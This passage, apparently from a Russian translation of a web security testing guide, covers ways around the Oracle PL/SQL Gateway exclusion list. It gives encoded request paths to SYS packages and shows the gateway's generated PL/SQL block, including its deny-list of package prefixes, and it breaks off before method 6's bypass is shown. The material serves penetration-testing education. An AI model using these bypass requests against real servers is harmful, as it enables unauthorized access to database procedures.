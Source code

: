 `http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC`
`http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC`

### Обход списка исключений - метод 5

Некоторые версии шлюза PL / SQL позволяют обойти список исключений с обратной косой чертой - `0x5C` :

`http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC`

### Обход списка исключений - метод 6

Это самый сложный метод обхода списка исключений и самый последний исправленный метод. Если бы мы просили следующее

`http://www.example.com/pls/dad/foo.bar?xyz=123`

сервер приложений будет выполнять следующее на сервере базы данных:

```sql
declare
 rc__ number;
 start_time__ binary_integer;
 simple_list__ owa_util.vc_arr;
 complex_list__ owa_util.vc_arr;
begin
 start_time__ := dbms_utility.get_time;
 owa.init_cgi_env(:n__,:nm__,:v__);
 htp.HTBUF_LEN := 255;
 null;
 null;
 simple_list__(1) := 'sys.%';
 simple_list__(2) := 'dbms\_%';
 simple_list__(3) := 'utl\_%';
 simple_list__(4) := 'owa\_%';
 simple_list__(5) := 'owa.%';
 simple_list__(6) := 'htp.%';
 simple_list__(7) := 'htf.%';
 if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
  rc__ := 2;
 else
  null;
  orasso.wpg_session.init();
  foo.bar(XYZ=>:XYZ);
  if (wpg_docload.is_file_download) then
   rc__ := 1;
   wpg_docload.get_download_file(:doc_info);
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
  else
   rc__ := 0;
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
   owa.get_page(:data__,:ndata__);
  end if;
 end if;
 :rc__ := rc__;
 :db_proc_time__ := dbms_utility.get_time—start_time__;
end;
```
